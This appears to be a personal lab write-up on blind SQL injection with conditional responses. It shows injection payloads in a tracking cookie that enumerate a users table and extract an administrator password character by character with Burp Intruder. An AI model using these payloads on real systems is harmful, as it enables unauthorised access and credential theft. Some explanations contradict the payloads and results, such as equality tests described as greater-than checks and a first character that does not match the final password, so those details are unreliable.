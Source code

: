 ## How to determine whether web app has blind SQLi vulnerability or not

- Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```sql 
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

- When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using a SQL query like this:
```sql 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
- ***This query is vulnerable to SQL injection***, but the results from the query are not returned to the user.
- If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.
- This behavior is enough to be able to exploit the blind SQL injection vulnerability.

## How the above works
- suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
```sql 
…xyz' AND '1'='1 
…xyz' AND '1'='2
```
- The first of these values will cause the query to return results, because the injected `AND '1'='1` condition is true, and so the "Welcome back" message will be displayed.
- Whereas the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed.
- This allows us to determine the answer to any single injected condition, and so extract data one bit at a time.

- For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time. To do this, we start with the following input:
```sql
xyz' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator') = 'm'--
```
- This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

- Next, we send the following input:
```sql 
xyz' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator') = 't'--
```
- This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

- Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:
```sql 
xyz' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator') = 's'--
```

- We can continue this process to systematically determine the full password for the `Administrator` user.

## Steps to solve Lab-1
### Desc - Blind SQL injection with conditional responses

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
**Below is how the backend query looks like when it checks the user is known or not known** ->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'Bs2vlGFAYY1bH5PO'
```
- if this tracking id exists -> query returns value -> Welcome back(for this lab but differ in real world)
  If this tracking id doesn't exist -> query returns nothing -> no Welcome back message(for this lab)

2. To fully confirm that it is vulnerable to blind based SQLi, we need to perform true and false use case. So that we can take out administrator password. For that we need to perform below query as follows:

In the backend the below SQL query looks like for true use case:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and 1=1--
```
--> True --> Welcome back(message in the web app)
Below performing on burp:
![[blind_SQL_injection_conditional_responses1.png]]

In the backend the below SQL query looks like for false use case:
```sql 
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and 1=0--
```
--> False --> No Welcome back(message in the web app) 
Below performing on burp:
![[blind_SQL_injection_conditional_responses2.png]]

3. Asking the database that, do you have users table?
- For that we use the below query:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and (SELECT 'x' FROM users LIMIT 1) = 'x'--
```
- Below performing on burp:
![[blind_SQL_injection_conditional_responses3.png]]
**Result** - Users table is present in the database.

4. Asking the database that, do you have a user named 'administrator'?
- For that we use the below query:
```sql
SELECT tracking-id FROM tracking-table WHERE trackingId = 'Bs2vlGFAYY1bH5PO'' and (SELECT username FROM users where username='administrator') = 'x'--
```
- Below performing on burp:
![[blind_SQL_injection_conditional_responses4.png]]
**Result** - administrator user is exist in database because welcome back message is still there.

5. Enumerate the password length of administrator.
	1. Asking the database, the length of password of administrator by below SQL query:
		```sql
		SELECT tracking-id FROM tracking-table WHERE trackingId =    'Bs2vlGFAYY1bH5PO'' and (SELECT username FROM users where username='administrator' and LENGTH(password)>1) = 'administrator'--
```
	2. Below performing on burp:
	   ![[blind_SQL_injection_conditional_responses5.png]]

	3. Now, we are going to perform brute force and for that we send the Repeater Raw data to intruder.
		![[blind_SQL_injection_conditional_responses6.png]]

	4. In the intruder, we clear positions.
		![[blind_SQL_injection_conditional_responses7.png]]

	5. Then add the position that you want to brute force to
		![[blind_SQL_injection_conditional_responses8.png]]

	6. Then add the payload type, starting, ending of brute force attack.
		![[blind_SQL_injection_conditional_responses9.png]]

	7. Brute force result:
		![[blind_SQL_injection_conditional_responses10.png]]
		**Result** - password is exactly 20 characters because in query we check whether the password is greater than 20.

6. Enumerating the password characters of administrator:
	1. Checking the password first character of administrator by below query
	```sql
	SELECT tracking-id FROM tracking-table WHERE trackingId =    'Bs2vlGFAYY1bH5PO'' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator') = 'a'--
```

	2. Performing on burp:
		![[blind_SQL_injection_conditional_responses11.png]]
		- After that click on "Payloads" button and then see below.

	3. Selecting the "Payloads" in intruder:
	   ![[blind_SQL_injection_conditional_responses12.png]]

	4. After performing the attack
		![[blind_SQL_injection_conditional_responses13.png]]
		**Result** - 'y' is the first character in administrator password.

	5. Now, we are going to check second character from the below sql query:
	   ```sql
	   SELECT tracking-id FROM tracking-table WHERE trackingId =    'Bs2vlGFAYY1bH5PO'' AND (SELECT SUBSTRING(password, 2, 1) FROM users WHERE username='administrator') = 'a'--
```
- But instead of doing this 20 times(becoz password length is 20), we just change the "Attack type" from "Sniper" to "Cluster bomb".
![[blind_SQL_injection_conditional_responses14.png]]

6. Now, we are going to set the first payload:
	![[blind_SQL_injection_conditional_responses15.png]]

7. Now, we are going to set the second payload:
![[blind_SQL_injection_conditional_responses16.png]]

8. Now, we are going to set "Grep" option to "Welcome back" so that we can sort out every response.
![[blind_SQL_injection_conditional_responses17.png]]

9. Now, remember to sort the "welcome back" field on the basis of "Payload1" field.
![[blind_SQL_injection_conditional_responses18.png]]
**Result** - password is "5ywkeecbw9qfs127bprb"
